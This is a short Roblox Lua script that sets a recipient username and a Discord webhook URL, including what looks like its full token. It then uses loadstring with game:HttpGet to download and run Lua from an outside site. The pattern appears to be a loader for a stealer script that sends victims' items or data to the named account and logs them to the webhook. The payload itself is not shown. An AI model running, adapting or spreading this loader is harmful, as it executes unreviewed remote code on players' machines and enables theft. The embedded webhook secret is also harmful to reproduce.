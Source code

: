 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie"
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy"

loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
